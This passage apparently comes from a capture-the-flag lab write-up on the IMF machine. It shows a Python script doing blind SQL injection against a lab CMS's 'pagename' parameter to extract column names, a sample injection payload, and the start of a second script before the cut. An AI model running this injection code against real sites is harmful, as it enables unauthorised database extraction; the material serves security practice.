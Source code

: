 #Global variables
main_url = 'http://10.10.2.131/imfadministrator/cms.php?pagename=home'
characters = string.ascii_lowercase + '-_'

def makeRequest():
    cookies= {
            'PHPSESSID' : 'em7rebru0337e7ml01v5uqqpc0'
            }
    table = ""

    p1 = log.progress("Bruteforce")
    p1.status("Starting bruteforce process")

    time.sleep(2)

    p2 = log.progress("Columns [DB:admin][Table:pages]")
    for dbs in range(0,4):
        for position_character in range(1, 30):
            for character in characters:
                sqli= main_url + f"'+and+(select+substring(column_name,{position_character},1)+from+information_schema.columns+where+table_schema='admin'+and+table_name='pages'+limit+{dbs},1)='{character}"
                p1.status(sqli)
                r = requests.get(sqli, cookies=cookies)

                if "Welcome to the IMF Administration." in r.text:
                    table += character
                    p2.status(table)
                    break
        table += ","

if __name__ == '__main__':
    makeRequest()
![[Pasted image 20240319184846.png]]
### Enumerating pagename column
We validate that the current database in *admin* by using this payload:
*home' and (select database())='admin*
![[Pasted image 20240320180519.png]]
Message *True*

##### Code:
**Note:** If response was not true, then we need to specify admin.pages as table:

#!/usr/bin/python3

from pwn import *
import requests, pdb, signal, time, sys, string

def def_handler(sig, frame):
    print("\n\n[!] Quitting...\n")
    sys.exit(1)

#Ctrl+C, define what to do after pressing SIGINT
signal.signal(signal.SIGINT, def_handler)
